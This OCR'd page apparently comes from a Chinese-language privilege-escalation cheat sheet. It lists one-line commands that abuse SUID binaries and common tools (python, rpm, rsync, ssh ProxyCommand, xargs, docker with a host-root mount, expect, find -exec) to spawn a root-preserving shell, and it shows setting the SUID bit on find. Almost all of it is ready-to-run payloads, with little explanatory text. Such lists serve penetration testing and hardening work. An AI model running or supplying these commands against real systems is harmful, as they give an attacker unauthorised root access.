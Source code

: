 ### python

```bash
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

### rpm

```bash
rpm --eval '%{lua:os.execute("/bin/sh -p")}'
```

### rsync

```bash
rsync -e 'sh -p -c "sh -p 0<&2 1>&2"' 127.0.0.1:/dev/null
```

### ssh

```bash
ssh -o ProxyCommand=';sh -p 0<&2 1>&2' x
```

### xargs

```bash
xargs -a /dev/null sh -p
```

### docker

```
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

### expect

```
expect -c 'spawn /bin/sh -p;interact'
```

### find

利用的 `find` 命令的 `-exec` 选项，该选项可以执行系统命令，而且可以使用 `{}` 代表当前文件名。

```bash
find . -exec /bin/sh -p \; -quit
  -exec：<执行指令>：假设find指令的回传值为True，就执行该指令；
  \;：结束符号，表示结束-exec的指令；
  -quit：结束find指令的执行；
```

但是现在很多系统上 `find` 命令默认没有设置 SUID 权限，所以需要手动设置。如果没有 SUID 权限就没法利用了。

```bash
[root@localhost ~]# ls -l /usr/bin/find
-rwxr-xr-x. 1 root root 199304 Oct 31  2018 /usr/bin/find
[root@localhost ~]# chmod u+s /usr/bin/find
```
